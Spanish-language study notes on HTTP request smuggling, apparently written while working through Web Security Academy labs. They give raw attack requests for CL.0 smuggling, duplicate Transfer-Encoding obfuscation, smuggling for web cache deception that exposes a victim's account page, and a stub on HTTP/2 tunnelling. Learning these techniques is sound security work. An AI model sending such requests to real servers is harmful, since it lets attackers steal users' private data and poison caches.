 **Explicacion:**
Realizamos un ataque de **request smuggling tipo CL.0**, donde el servidor *back-end* ignora el encabezado `Content-Length` en ciertas rutas, permitiendo **inyectar una segunda petición** dentro del cuerpo de una `POST` aparentemente legítima.
-- -
## **Smuggling ocultando el header TE**
**Request**
```http
POST / HTTP/1.1
Host: domain.com
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: invalid

38
POST /error HTTP/1.1
Content-Length: 30 

testing=test 
0

```

**Explicacion**
- Se busca lograr una inconsistencia, a veces el **back-end** al ver que hay 2 encabezados igual con valores distintos, decide ignorar los 2 e interpretar por **`Content-Length`**
-- -
## **HTTP request smuggling to perform web cache deception**
**Request1:**
```http
POST / HTTP/1.1
Host: domain.com
Transfer-Encoding: chunked
Content-Length: 38

0

GET /my-account HTTP/1.1
Test: a
```

**Request2:**
```http
GET /resources/js/tracking.js HTTP/2
Host: 0a740013030f53638047214c0098007f.web-security-academy.net
```

**Explicacion:**
- Las cookies de sesión de la víctima se aplican al `GET /my-account` smuggleado, el back-end responde con la página privada, el front-end asocia esa respuesta a la URL `/resources/js/tracking.js` y la cachea, permitiendo que el atacante luego acceda a esa URL y obtenga el contenido sensible desde la caché.
--- 
## HTTP/2 request tunnelling
![[Pasted image 20250822181550.png]]
*Aclaración:* 
- La inyeccion de este tipo de datos a veces genera que el **Front-end** revele mas data de la que deberia revelar.
![[Pasted image 20250822181959.png]]
*Aclaración:* 